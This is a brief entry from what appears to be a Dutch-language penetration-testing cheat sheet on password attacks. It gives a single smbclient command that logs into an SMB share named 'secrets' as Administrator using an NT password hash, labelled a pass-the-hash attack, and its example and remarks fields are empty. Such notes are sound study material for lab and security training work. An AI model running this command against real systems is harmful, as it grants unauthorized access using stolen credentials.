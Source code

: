 # 16.Password Attacks — Entry 34

## Categorie

PtH smbclient

## Commando

```
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

## Omschrijving

Pass the hash attack via smbclient.

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

